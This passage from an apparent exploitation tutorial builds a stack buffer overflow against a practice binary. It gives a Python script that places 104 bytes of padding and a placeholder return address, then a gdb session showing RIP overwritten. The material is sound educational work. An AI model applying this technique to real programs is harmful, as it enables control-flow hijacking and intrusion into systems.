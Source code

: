 So RIP is at offset 104. Let's update our exploit and see if we can overwrite RIP this time: 

```python
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*104                      # offset to RIP
buf += pack("<Q", 0x424242424242)   # overwrite RIP with 0x0000424242424242
buf += "C"*290                      # padding to keep payload length at 400 bytes

f = open("in.txt", "w")
f.write(buf)
```

Run it to create an updated in.txt file, and then redirect it into the program within gdb:

```text
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b015a0 (<__write_nocancel+7>:  cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a00 --> 0x0
RSI: 0x7ffff7ff5000 ("No shell for you :(\nis ", 'A' <repeats 92 times>"\220, \001\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe510 ('C' <repeats 200 times>...)
RIP: 0x424242424242 ('BBBBBB')
R8 : 0x283a20756f792072 ('r you :(')
R9 : 0x4141414141414141 ('AAAAAAAA')
R10: 0x7fffffffe260 --> 0x0
R11: 0x246
R12: 0x4004d0 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffe600 ('C' <repeats 48 times>, "|\350\377\377\377\177")
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x424242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe510 ('C' <repeats 200 times>...)
0008| 0x7fffffffe518 ('C' <repeats 200 times>...)
0016| 0x7fffffffe520 ('C' <repeats 200 times>...)
0024| 0x7fffffffe528 ('C' <repeats 200 times>...)
0032| 0x7fffffffe530 ('C' <repeats 200 times>...)
0040| 0x7fffffffe538 ('C' <repeats 200 times>...)
0048| 0x7fffffffe540 ('C' <repeats 200 times>...)
0056| 0x7fffffffe548 ('C' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000424242424242 in ?? ()
```
